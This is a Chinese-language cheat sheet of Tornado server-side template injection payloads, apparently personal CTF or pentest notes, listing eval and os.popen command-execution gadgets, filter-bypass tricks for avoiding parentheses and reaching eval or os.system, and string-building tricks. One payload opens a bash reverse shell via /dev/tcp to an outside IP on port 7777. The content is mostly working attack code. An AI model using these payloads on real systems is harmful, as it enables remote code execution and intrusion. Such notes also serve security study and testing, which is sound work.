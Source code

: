 # 常见payload
	- ```python
	  {{handler.settings}}
	  {{eval('[].__class__.__mro__[1].__subclasses__()[231]("ls",shell=1,stdout=-1).communicate()')}}
	  ```
- # 代码注入
	- ```
	  {% raw "__import__('os').popen('ls').read()"%0a    _tt_utf8 = eval%}{{'1'%0a    _tt_utf8 = str}}
	  ```
- # WAF绕过
	- 读取文件
		- `{%extends xxx%}`
		- `include`
	- 括号
		- `{%raw 114%}`输出表达式，配合apply可以实现函数调用绕过括号
			- 可以直接将字符串传给eval
			- `{%apply x.append%}{%raw {114:1}[k]%}{%end%}`
		- `_tt_utf8`
			- ```
			  ssti={%25 set _tt_utf8 =eval %25}{%25 raw request.body_arguments[request.method][0] %25}&POST=import(‘os’).popen(“bash -c ‘bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F23.224.22.11%2F7777%20%3C%261’”)
			  ```
	- 获取危险函数
		- ``handler.request.server_connection._serving_future._coro.cr_frame.f_builtins['eval']``
		- `{%import os%}`
		- 命名空间里有datetime模块,也就是说可以拿到sys模块`datetime.sys`
			- 然后就可以使用`sys.modules`拿到已经加载的模块
			- ``datetime.sys.modules["os"].system``
			- ```python
			  namespace = {
			    "escape": escape.xhtml_escape,
			    "xhtml_escape": escape.xhtml_escape,
			    "url_escape": escape.url_escape,
			    "json_encode": escape.json_encode,
			    "squeeze": escape.squeeze,
			    "linkify": escape.linkify,
			    "datetime": datetime,
			    "_tt_utf8": escape.utf8,  # for internal use
			    "_tt_string_types": (unicode_type, bytes),
			    # __name__ and __loader__ allow the traceback mechanism to find
			    # the generated source code.
			    "__name__": self.name.replace(".", "_"),
			    "__loader__": ObjectDict(get_source=lambda name: self.code),
			  }
			  ```
			-
	- 构造字符串
		- `handler.get_argument`拿到某个GET参数
			- ``handler.get_argument('yu')``
		- `request.method`请求方法
		- `request.arguments`POST（也许也有GET？）参数的字典，但是值是一堆bytes
		- `request.files`上传文件的字典
		- `request.headers`里面可以拿到^^字符串形式的Headers^^
		- `datetime.sys.base_exec_prefix`是一个字符串
		- `datetime.sys.builtin_module_names`有一堆字符串
		- 利用列表从一个字典中取出所有的值，可以用来从headers字典中取出字符串
			- ```
			  {%set x=[]%}
			  {%for k in {114:514}%}
			  {%apply x.append%}{%raw {114:1}[k]%}{%end%}
			  {%end%}
			  ```
			- ```
			  {%set x=[]%}
			  {%set d={114:514}%}
			  {%set g=iter(d)%}
			  {%try%}
			  {%while 1%}
			  {%apply x.append%}{%raw next(g)%}{%end%}
			  {%end%}
			  {%except%}
			  {%end%}
			  ```
	- 其他
		- `extends`渲染另一个模板
- # 参考
	- https://xz.aliyun.com/t/12260#toc-10
	- https://blog.csdn.net/miuzzx/article/details/123329244